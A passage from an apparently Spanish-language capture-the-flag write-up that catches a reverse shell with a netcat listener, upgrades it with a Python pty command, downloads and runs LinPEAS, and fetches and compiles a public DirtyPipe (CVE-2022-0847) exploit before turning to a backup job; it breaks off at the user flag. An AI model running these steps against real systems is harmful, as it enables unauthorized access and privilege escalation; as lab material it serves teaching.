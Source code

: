 Y en nuestra máquina local ejecutaremos el comando:

`netcat -lvnp 1234`

Obteniendo así una shell reversa:

![](https://i.imgur.com/WfuxnmE.png)

La hacemos un poco más funcional con el comando `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![](https://i.imgur.com/xbNslGb.png)

## Parte 3 - Escalado de privilegios

Ahora que podemos lanzar comandos en la máquina, vemos que somos el usuario www-data. Por lo tanto, muy probablemente necesitaremos escalar privilegios para obtener las siguientes flags. Para automatizar este proceso, nos descargamos LinPEAS del repositorio de Github y lo ejecutamos, redirigiendo la salida a un fichero para poder leerla más cómodamente después. Lo haremos mediante los siguientes comandos:

```http
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220619/linpeas.sh

./linpeas.sh > scalate.log
```

Una vez finalizado, accedemos a scalate.log y vemos que es la máquina es potencialmente vulnerable al CVE-2022-0847, que podríamos usar para escalar a root directamente:

![](https://i.imgur.com/ubeDPJw.png)

Ahora buscamos algún exploit para este CVE. Encontramos el siguiente enlace [https://github.com/febinrev/dirtypipez-exploit/blob/main/dirtypipez.c](https://github.com/febinrev/dirtypipez-exploit/blob/main/dirtypipez.c) que nos proporciona un exploit para la vulnerabilidad, el cual compilaremos y ejecutaremos. Descargaremos el fichero del repositorio con 

`wget https://raw.githubusercontent.com/febinrev/dirtypipez-exploit/main/dirtypipez.c`


![](https://i.imgur.com/BuSQAIF.png)

Y lo compilamos y ejecutamos:

![](https://i.imgur.com/IR4Wq3R.png)
![](https://i.imgur.com/rWl2ijh.png)

Por desgracia, no hemos conseguido explotar la vulnerabilidad. Vamos a ejecutar [pspy64](https://github.com/DominicBreuker/pspy) para ver si encontramos algún proceso sospechoso. Durante la ejecución, nos damos cuenta de que hay un procedimiento que se encarga de hacer un backup de la página web cada cierto tiempo:

![](https://i.imgur.com/DIeigY5.png)

Así que vamos a ver si podemos editarlo. Moviéndonos a /var y listando este directorio nos encontramos la flag de nuestro usuario (`www-data`):
